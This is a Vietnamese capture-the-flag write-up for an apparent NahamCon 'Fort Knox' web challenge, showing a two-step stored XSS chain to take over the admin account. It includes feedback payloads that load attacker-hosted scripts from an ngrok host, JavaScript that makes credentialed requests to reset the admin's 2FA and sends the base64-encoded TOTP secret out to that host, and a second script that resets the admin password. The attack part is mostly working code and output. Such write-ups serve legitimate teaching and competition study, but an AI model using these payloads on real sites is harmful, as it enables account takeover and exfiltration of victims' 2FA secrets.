 ![setting](https://user-images.githubusercontent.com/71699412/167260883-9d76f2d0-b2cd-4469-8037-2896aff45b28.jpg)

#### Exploit

**Ý tưởng**: Mục tiêu có lẽ là đánh cắp tài khoản admin để đọc được secret bằng cách lợi dụng XSS make request reset 2FA và nhận lại response trả về chứa QR code. Sau khi có QR code của admin, ta scan và lấy được 2FA code tiếp tục exploit XSS reset password với 2FA code của admin vừa có được. Reset password thành công, ta vào được tài khoản admin đọc secret.

**Step 1**: Đánh cắp QR code của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_1.js"></script>
```
Link trên trỏ đến file js ta tự host để exploit XSS, file evil_1.js:

```js
var xhr = new XMLHttpRequest;
xhr.open("POST", "http://challenge.nahamcon.com:31169/reset2fa", true);
xhr.withCredentials = true;
xhr.onload = function() {
	var qr = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?qr=" + qr);
	exit.send();
};

xhr.send();
```

Từ link trả về, ta decode base64 được:
```json
{"url":"otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox"}
```

Ta dùng google `/chart` để generate QR code với secret trên: https://www.google.com/chart?chs=200x200&chld=MJ0&cht=qr&chl=otpauth://totp/Fort%20Knox:admin?secret=L6EFVJEYQOQIZ4N7&issuer=Fort%20Knox

**Step 2**: Với 2FA code, reset password của admin qua XSS

Gửi feedback là: 
```html
<script src="http://e405-42-112-56-248.ngrok.io/evil_2.js"></script>
```

file `evil_2.js`:
```js
var xhr = new XMLHttpRequest();
var url = "http://challenge.nahamcon.com:30299/reset_password";

xhr.open("POST", url, true);
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");

// debug
xhr.onload = function() {
	var status = btoa(xhr.responseText);
	var exit = new XMLHttpRequest;
	exit.open("GET", "http://e405-42-112-56-248.ngrok.io?status=" + status);
	exit.send();
};

// OTP vừa scan từ QR code của admin
xhr.send(JSON.stringify({"otp":"786746","password":"admin","password2":"admin"}));
```
GET /?status=eyJzdWNjZXNzIjp0cnVlfQo= ==> `{"success":true}`
